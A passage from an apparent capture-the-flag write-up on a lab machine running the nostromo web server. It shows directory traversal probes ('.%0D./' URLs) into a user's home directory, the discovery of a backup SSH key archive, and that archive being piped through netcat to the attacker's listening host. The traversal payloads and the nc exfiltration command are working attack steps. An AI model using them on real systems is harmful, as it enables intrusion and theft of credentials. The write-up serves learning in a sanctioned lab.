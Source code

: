 >
> </div>
>
> </div>

So `/homedirs /home` points `nostromo` to the home directories, and then
in a users directory, the webroot will be `public_www`. So
`http://10.10.10.165/~david` will be `/home/david/public_www`.

My first thought was to access this via the browser:

![](/img/image-20191122134727465.png)

I could even use the traversal vulnerability to explore in david's home
directory. Tried a bunch of stuff:

  URL                                           Result          Notes
  --------------------------------------------- --------------- ----------------------------------------
  `http://10.10.10.165/~david/.%0d./`           Empty Page      Likely exists, no permissions to read
  `http://10.10.10.165/~david/.%0D./.ssh/`      Empty           Likely exists, no permissions to read
  `http://10.10.10.165/~david/.%0D./0xdf/`      404 Not Found   Doesn't exist (as expected)
  `http://10.10.10.165/~david/.%0D./user.txt`   403 Forbidden   Exists, but no permissions to read
  `http://10.10.10.165/~david/index.md`       Image Above     I have permissions to read in this dir

The last test was where it occurred to me that www-data must be able
read in this directory, `/home/david/public_www`. So I went back to my
shell, and not only can I get into the directory, but there's a folder
there:



    www-data@traverxec:/var/nostromo/conf$ cd /home/david/public_www
    www-data@traverxec:/home/david/public_www$ ls            
    index.md  protected-file-area 



Inside, there's backup keys:



    www-data@traverxec:/home/david/public_www$ cd protected-file-area/
    www-data@traverxec:/home/david/public_www/protected-file-area$ ls
    backup-ssh-identity-files.tgz   



I'll send that through `nc` back to my box. With `nc` listening on my
host, I'll send it back:



    www-data@traverxec:/home/david/public_www/protected-file-area$ cat backup-ssh-identity-files.tgz | nc 10.10.14.6 443  



On my host:



    root@kali# nc -lnvp 443 > backup-identity-files.tgz.b64 
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.165.
    Ncat: Connection from 10.10.10.165:53004.
